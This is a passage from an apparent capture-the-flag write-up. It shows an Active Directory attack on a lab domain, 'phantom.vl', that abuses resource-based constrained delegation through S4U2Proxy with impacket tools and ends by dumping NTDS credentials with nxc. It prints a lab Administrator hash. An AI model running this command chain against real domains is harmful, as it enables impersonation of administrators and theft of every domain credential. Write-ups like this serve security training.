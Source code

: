 **3. S4U2Proxy Attack**

To leverage the RBCD with a user account, which is our only path forward due to our `ms-DS-MachineAccountQuota` being 0, a series of steps were required to perform an S4U2proxy attack, as detailed by [James Forshaw](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html).

*   **Calculate NTLM Hash**: The NTLM hash of `wsilva`'s new password was calculated.
    *Note: You may not need to do this. In my case, I needed to force a RC4-based TGT, which yields a 32-character session key. Using a plaintext password (`Summer2025`) generated a AES256 64-character key, which is not compatible with the subsequent steps.*
    ```zsh
    NTLM=$(echo -n 'Summer2025' | iconv -f UTF-8 -t UTF-16LE | openssl dgst -md4 | awk '{print $2}')
    ```

*   **Request TGT**: A Ticket Granting Ticket for `wsilva` was requested using the NTLM hash.
    ```zsh
    getTGT.py -hashes :$NTLM phantom.vl/wsilva -dc-ip 10.129.234.63
    ```

*   **Extract Session Key**: The session key was extracted from the cached TGT.
    ```zsh
    describeTicket.py wsilva.ccache | grep 'Ticket Session Key'
    # Output: [*] Ticket Session Key            : 098710b2cb0989cb38839638c24cd154
    ```

*   **Update Password Hash**: `wsilva`'s password hash was changed to the extracted TGT session key. This is a critical step that allows the user account to be used for delegation without requiring a Service Principal Name (SPN).
    ```zsh
    changepasswd.py -newhashes :098710b2cb0989cb38839638c24cd154 phantom.vl/wsilva:Summer2025@10.129.234.63
    ```

*   **Request Service Ticket**: A service ticket was requested to impersonate the `Administrator` on the Domain Controller's CIFS service.
    ```zsh
    KRB5CCNAME=wsilva.ccache getST.py -u2u -impersonate Administrator -spn cifs/DC.phantom.vl phantom.vl/wsilva -k -no-pass
    ```

**4. Dump NTDS and Obtain Root Flag**

With a service ticket for the Administrator, the NTDS.dit file was dumped remotely to obtain the Administrator's NTLM hash.

*   **Command**:
    ```zsh
    KRB5CCNAME=Administrator@cifs_DC.phantom.vl@PHANTOM.VL.ccache nxc smb dc.phantom.vl --use-kcache --ntds --user Administrator
    ```
*   **Output Snippet**:
    ```
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa2abd9db4f5984e657f834484512117:::
    ```
